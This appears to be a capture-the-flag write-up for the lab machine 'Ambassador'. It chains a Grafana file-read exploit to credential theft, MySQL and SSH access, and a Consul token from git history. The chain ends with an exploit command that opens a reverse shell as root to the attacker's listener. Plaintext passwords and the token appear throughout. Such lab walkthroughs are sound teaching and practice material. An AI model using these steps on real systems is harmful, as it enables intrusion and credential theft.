 # Ambassador

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.228.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 05:49 EDT
Nmap scan report for 10.129.228.56
Host is up (0.015s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```

### Port 80

The only interesting thing here is the mentioning of the user `developer`:

<figure><img src="../../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

Other than that, there was not much here.

### Grafana LFI --> Creds

Port 3000 was hosting a Grafana instance.

<figure><img src="../../../.gitbook/assets/image (142) (2).png" alt=""><figcaption></figcaption></figure>

This version of Grafana is vulnerable to public exploits:

```
$ searchsploit grafana                
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

We can confirm that this works:

<figure><img src="../../../.gitbook/assets/image (77) (5).png" alt=""><figcaption></figcaption></figure>

Grafana stores a configuration file at `/etc/grafana/grafana.ini`, so let's start there. We can find some passwords within that:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

With this, we can login to the admin panel:

<figure><img src="../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Within the configuration files, we can find a `mysql.yaml` file.

<figure><img src="../../../.gitbook/assets/image (72) (5).png" alt=""><figcaption></figcaption></figure>

We can't edit it, and there wasn't any credentials in it:

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

However, maybe we can use the LFI to read this file on the machine itself.&#x20;

{% embed url="https://grafana.com/docs/grafana/latest/administration/provisioning/" %}

Based on this documentation, it is located in`/etc/grafana/provisioning/datasources`.&#x20;

<figure><img src="../../../.gitbook/assets/image (102) (4).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can login to the MySQL database on the machine:

```
$ mysql -u grafana -h 10.129.228.56 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Then, we can use the `whackywidget` database to find the password for `developer`.&#x20;

```
MySQL [whackywidget]> select * from users\g
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```

We can then login as `developer` via `ssh` using this password.

## Privilege Escalation

### Consul Token --> RCE

I was wondering where that `whackywidget` dataabse came from and why it had the password for the user instead of the `grafana` database. Within the `/opt` directory, we can find some additional folders:

```
developer@ambassador:/opt$ ll
total 16
drwxr-xr-x  4 root   root   4096 Sep  1  2022 ./
drwxr-xr-x 20 root   root   4096 Sep 15  2022 ../
drwxr-xr-x  4 consul consul 4096 Mar 13  2022 consul/
drwxrwxr-x  5 root   root   4096 Mar 13  2022 my-app/

developer@ambassador:/opt/my-app$ ls
env  whackywidget
```

`consul` is an application used to configure and spin up applications with databases:

{% embed url="https://github.com/hashicorp/consul" %}

The application on the machine starts on port 8500, and we can also find out the version running:

```
developer@ambassador:/opt/my-app/env$ netstat -tulon
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)

developer@ambassador:/opt/my-app/env$ consul --version
Consul v1.13.2
```

There are some exploits for this:

{% embed url="https://github.com/owalid/consul-rce" %}

However, we first need to find the token within the files. Within the `/opt/my-app` directory, there's a `.git` repository.

```
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1  2022 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
```

If we check the logs, we can find the token:

```
developer@ambassador:/opt/my-app$ git log -p -2
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

Afterwards, just run the PoC above on the machine itself.&#x20;

```bash
developer@ambassador:~$ python3 exploit_consul.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.13 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```

This would give us a reverse shell as `root`.

<figure><img src="../../../.gitbook/assets/image (75) (7).png" alt=""><figcaption></figcaption></figure>
